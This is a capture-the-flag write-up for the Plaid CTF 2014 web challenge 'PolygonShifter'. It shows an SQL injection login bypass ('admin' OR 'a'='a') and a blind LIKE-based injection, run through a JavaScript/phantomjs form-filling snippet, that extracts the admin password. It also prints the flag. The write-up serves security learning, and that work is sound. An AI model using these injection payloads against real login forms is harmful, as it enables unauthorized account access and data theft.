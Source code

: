 # Plaid CTF 2014: PolygonShifter

**Category:** Web
**Points:** 100
**Description:**

> The Plague has purchased the newest invention, _Polygon Shifter_ to protect his website. This cutting edge technology is made available by Polygon Security, and they have a demo page on their [website](http://54.204.80.192/). They claim bots can no longer attack the website protected by the Polygon Shifter. Do we need to manually bruteforce the credentials?

## Write-up

Looking into sourcecode reveals that there is a secret admin account:

```html
<div class="row">
<div class="medium-10 small-centered columns">
    <h3>To demonstrate our technology, we have a form that is protected with our solution. Humans shall pass, but bots will FAIL.</h3>
    <h3>Test account is test / test</h3>
    <!--<h3>For admin interface, admin / ???????</h3>-->
</div>
</div>
```

Let's try to login with this admin account. We don't have the credentials, so we'll try some SQL injection instead.

Username: `admin' OR 'a'='a`
Password: `random`

Great, we can get in!

We are welcomed with the following message: 
`Hello, admin!! My password is the flag!`

Seems like we need to find the password with SQL injection. Let's peek into the sourcecode some more:

```html
<h4 class="product-header">A friendly login form; not so friendly for bots!</h4>
<div class="medium-11 small-centered columns">
    <form action="/P0zxeNVpdjH6myRHaWVS" method="POST">
        <label for="" style="text-align:left;">Username</label>
        <input type="text" id="6lyNestBnznos6FxGtGD" name="dVURHUzXGy69u5thdZY0">
        <label for="bFixmywlQhbkX1uC1oI2" style="text-align:left;">Password</label>
        <input type="password" id="bFixmywlQhbkX1uC1oI2" name="SU8IPPqzwozVlQzuaWSA">
        <input class="primary large" type="submit" value="Login">
    </form>
</div>
```

Okay, it seems that we cannot use the id's or names for these fields to automate the process. No problem, we don't really need those. The source code doesn't seem to have any more input fields, so we can just use the first and second input field to put our username and password in. 

```js
var arr = document.getElementsByTagName("input");
arr[0].value = "admin";
arr[1].value = "' or (password LIKE '%a%') and 1='1";
```

If we successfully log in as admin with these values, we know that our query succeeded and that there's an `a` in the password.

For the full script, see [the source](./client.js) (run the script as `phantomjs client.js "(password like 'a%')"`).

After some testing, we find that the flag is `n0b0t5_C4n_bYpa5s_p0lYm0rph1Sm`.

## Other write-ups

* <http://balidani.blogspot.com/2014/04/plaidctf-2014-polygonshifter-writeup.html>
* <https://ucs.fbi.h-da.de/writeup-plaidctf-2014-polygonshifter/>
